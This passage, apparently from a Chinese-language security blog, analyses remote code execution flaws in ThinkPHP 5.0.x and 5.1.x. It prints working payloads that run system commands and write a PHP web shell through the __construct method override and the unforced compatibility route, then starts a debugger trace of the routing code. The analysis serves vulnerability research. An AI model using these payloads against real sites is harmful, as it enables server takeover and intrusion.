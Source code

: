 ```
POST ?s=index/index
_method=__construct&filter[]=system&method=GET&s=calc
```
写shell
```
POST
s=file_put_contents('Y4er.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
POST ?s=captcha
_method=__construct&filter[]=system&s=calc&method=get
```
**至此，不再一个一个版本测了，费时费力。**
基于`__construct`的payload大部分出现在5.0.x及低版本的5.1.x中。下文分析另一种rce。

## 未开启强制路由导致rce
这种rce的payload多形如
```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
### 环境
```json
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.29",
    "topthink/think-captcha": "2.*"
},
```
### 分析
![image](https://y4er.com/img/uploads/20191127229702.jpg)
thinkphp默认没有开启强制路由，而且默认开启路由兼容模式。那么我们可以用兼容模式来调用控制器，当没有对控制器过滤时，我们可以调用任意的方法来执行。上文提到所有用户参数都会经过 `Request` 类的 `input` 方法处理，该方法会调用 `filterValue` 方法，而 `filterValue` 方法中使用了 `call_user_func` ，那么我们就来尝试利用这个方法。访问

```
http://php.local/thinkphp5.1.30/public/?s=index/\think\Request/input&filter[]=system&data=whoami
```
打断点跟进到`thinkphp/library/think/App.php:402`

![image](https://y4er.com/img/uploads/20191127223178.jpg)

`routeCheck()`返回`$dispatch`是将 `/` 用 `|` 替换

![image](https://y4er.com/img/uploads/20191127225278.jpg)
